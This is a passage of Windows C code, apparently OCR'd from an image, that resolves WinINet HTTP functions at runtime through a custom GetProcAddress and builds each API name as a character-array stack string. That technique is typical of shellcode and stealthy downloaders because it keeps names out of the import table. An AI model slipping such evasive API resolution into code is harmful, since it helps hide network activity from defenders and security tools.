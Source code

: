                 _In_ DWORD_PTR     dwContext
                )) _GetProcAddress((HMODULE)wininet_dll, internetconnecta_name);

        char httpopenrequesta_name[] = { 'H','t','t','p','O','p','e','n','R','e','q','u','e','s','t','A',0 };
        HINTERNET (WINAPI * _HttpOpenRequestA)(
            _In_opt_ HINTERNET hConnect,
            _In_opt_ LPCSTR   lpszVerb,
            _In_opt_  LPCSTR   lpszObjectName,
            _In_opt_ LPCSTR   lpszVersion,
            _In_opt_ LPCSTR   lpszReferrer,
            _In_opt_ LPCSTR * lplpszAcceptTypes,
            _In_opt_ DWORD     dwFlags,
            _In_ DWORD_PTR dwContext
            ) = (HINTERNET (WINAPI*)(
                _In_opt_ HINTERNET hConnect,
                _In_opt_ LPCSTR   lpszVerb,
                _In_opt_ LPCSTR   lpszObjectName,
                _In_opt_ LPCSTR   lpszVersion,
                _In_opt_ LPCSTR   lpszReferrer,
                _In_opt_ LPCSTR * lplpszAcceptTypes,
                _In_opt_ DWORD     dwFlags,
                _In_ DWORD_PTR dwContext
                )) _GetProcAddress((HMODULE)wininet_dll, httpopenrequesta_name);

        char httpsendrequesta_name[] = { 'H','t','t','p','S','e','n','d','R','e','q','u','e','s','t','A',0 };

        BOOL (WINAPI * _HttpSendRequestA)(
            HINTERNET hRequest,
            LPCWSTR   lpszHeaders,
            DWORD     dwHeadersLength,
            LPVOID    lpOptional,
            DWORD     dwOptionalLength
            ) = (BOOL (WINAPI*)(
                HINTERNET hRequest,
                LPCWSTR   lpszHeaders,
                DWORD     dwHeadersLength,
                LPVOID    lpOptional,
                DWORD     dwOptionalLength
                )) _GetProcAddress((HMODULE)wininet_dll, httpsendrequesta_name);

        char internetreadfile_name[] = { 'I','n','t','e','r','n','e','t','R','e','a','d','F','i','l','e', 0 };

        BOOL (WINAPI * _InternetReadFile)(
            HINTERNET hFile,
            LPVOID    lpBuffer,
            DWORD     dwNumberOfBytesToRead,
            LPDWORD   lpdwNumberOfBytesRead
            ) = (BOOL (WINAPI*)(
                HINTERNET hFile,
                LPVOID    lpBuffer,
                DWORD     dwNumberOfBytesToRead,
                LPDWORD   lpdwNumberOfBytesRead
                )) _GetProcAddress((HMODULE)wininet_dll, internetreadfile_name);
